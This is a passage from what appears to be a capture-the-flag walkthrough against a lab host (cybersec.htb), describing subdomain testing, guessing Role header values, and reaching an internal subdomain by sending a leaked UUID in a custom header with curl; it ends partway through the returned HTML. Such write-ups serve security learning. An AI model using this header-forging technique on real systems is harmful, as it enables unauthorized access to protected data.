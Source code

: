 We see the error message that the Role header is missing, so after trying different roles I found 2 correct roles: user and administrator

![image](https://github.com/user-attachments/assets/d3c8744d-8dac-4ae2-8149-0c8f106251a7)

One returns basic information and the other more sensitive information and after testing the different subdomains, I get 2 assets.

![image](https://github.com/user-attachments/assets/51d46425-d731-497b-b28a-b25d0ec2271d)

![image](https://github.com/user-attachments/assets/91f60284-40b7-49fd-801a-e46795e86de1)


active URLs: `http://mail.cybersec.htb/` & `http://0internal_down.cybersec.htb/`

After testing the email subdomain, I didn't find any vulnerabilities, so we checked the other active subdomain where we see it indicates a missing header. If we look at the details we see that the header seems to refer to the UUIDs we got in /api/interest. I'm going to test the header with the UUIDs in /api/interest

```bash
curl http://0internal_down.cybersec.htb -H "X-UUID-Access: f47ac10b-58cc-4372-a567-0e02b2c3d479"
```
```html
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Cybersec - Sec2Pass</title>
    <link rel="icon" href="http://cybersec.htb/static/favicon.ico" type="image/x-icon">
    <style>
        body {
            font-family: 'Arial', sans-serif;
            background-color: #202343;
            margin: 0;
            padding: 20px;
        }

        .container {
            max-width: 600px;
            margin: 0 auto;
            background: white;
            border-radius: 8px;
            box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
            padding: 20px;
        }

        h1 {
            text-align: center;
            color: #333;
        }

        .file-list {
            margin-top: 20px;
        }

        .file-item {
            display: flex;
            justify-content: space-between;
            align-items: center;
            padding: 10px;
            border-bottom: 1px solid #eaeaea;
        }

        .file-item:last-child {
            border-bottom: none;
```